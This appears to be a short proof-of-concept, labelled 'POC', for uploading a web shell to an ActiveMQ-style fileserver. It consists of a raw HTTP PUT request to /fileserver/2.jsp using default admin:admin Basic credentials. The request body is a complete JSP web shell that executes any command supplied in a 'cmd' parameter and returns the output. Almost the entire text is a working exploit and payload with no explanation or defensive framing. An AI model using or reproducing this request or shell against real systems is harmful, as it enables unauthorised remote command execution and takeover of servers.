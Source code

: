 POC
---

    PUT /fileserver/2.jsp HTTP/1.1
    Host: 192.168.177.137:8161
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
    Authorization: Basic YWRtaW46YWRtaW4=
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Content-Length: 329

    <%@ page import="java.io.*"%>
    <%
     out.print("Hello</br>");
     String strcmd=request.getParameter("cmd");
     String line=null;
     Process p=Runtime.getRuntime().exec(strcmd);
     BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
     while((line=br.readLine())!=null){
     out.print(line+"</br>");
     }
    %>